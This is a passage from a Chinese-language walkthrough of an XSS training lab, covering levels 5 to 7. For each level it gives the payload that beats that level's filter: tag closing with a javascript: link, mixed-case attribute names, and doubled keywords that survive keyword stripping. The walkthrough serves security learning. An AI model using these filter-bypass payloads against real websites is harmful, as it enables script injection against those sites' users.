 这里不用`<input>`标签了，把它闭合掉,用a标签试试

```
"><a href="javascript:alert(1)">link</a> <"
```

![image-20220217154340891](https://raw.githubusercontent.com/todis21/image/main/img/image-20220217154340891.png)

点击link弹窗。进入下一关

## Level 6

![image-20220217155856005](https://raw.githubusercontent.com/todis21/image/main/img/image-20220217155856005.png)

源码和上一关差不多

![image-20220217160010837](https://raw.githubusercontent.com/todis21/image/main/img/image-20220217160010837.png)

尝试使用上一关的payload,并没有出现弹窗

![image-20220217160114004](https://raw.githubusercontent.com/todis21/image/main/img/image-20220217160114004.png)

![image-20220217160153498](https://raw.githubusercontent.com/todis21/image/main/img/image-20220217160153498.png)

发现这里的`href`也被`_`分隔了

因为html对大小写不敏感，即不区分大小写，这里可以试试下面的payload

```
"><a Href="javascript:alert(111)">link</a> <"
```

![image-20220217161822841](https://raw.githubusercontent.com/todis21/image/main/img/image-20220217161822841.png)

点击link弹窗。进入下一关

## Level 7

![image-20220217210116917](https://raw.githubusercontent.com/todis21/image/main/img/image-20220217210116917.png)

页面源码与上一关的雷同，用上一关的payload：`"><a Href="javascript:alert(1)">link</a> <"`试试

![image-20220217210446573](https://raw.githubusercontent.com/todis21/image/main/img/image-20220217210446573.png)

发现这里过滤了`script`和`href`,可以用双写绕过，即在script里面再插入一个script,如`scrscriptipt`,

当script被过滤后，剩下的拼接起来刚好能组合成script,href也同理

payload

```
"><a hRhrefef="javascriscriptpt:alert('111')">link</a><"
```

![image-20220217211132648](https://raw.githubusercontent.com/todis21/image/main/img/image-20220217211132648.png)

